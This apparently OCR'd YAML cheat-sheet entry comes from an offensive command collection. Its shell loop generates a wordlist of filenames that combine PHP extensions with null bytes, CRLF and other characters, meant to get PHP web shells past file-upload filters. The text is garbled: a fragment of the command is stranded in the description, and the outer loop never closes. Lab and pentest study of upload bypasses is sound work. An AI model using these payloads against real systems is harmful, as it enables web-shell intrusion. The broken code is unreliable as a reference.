 ```yaml
---
description: |
  Generate a custom wordlist by combining non-blacklisted and whitelisted file extensions with various bypass characters. 
  This technique helps evade file upload restrictions by using double extensions and special characters.

  Command Reference:

      for ext in '.php' '.phps';

command: |
  for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done

items:
  - 
services:
  - 
OS:
  - Linux
  - Mac
attack_types:
  - Enumeration
references:
  - https://academy.hackthebox.com/module/136/section/1289
---
```

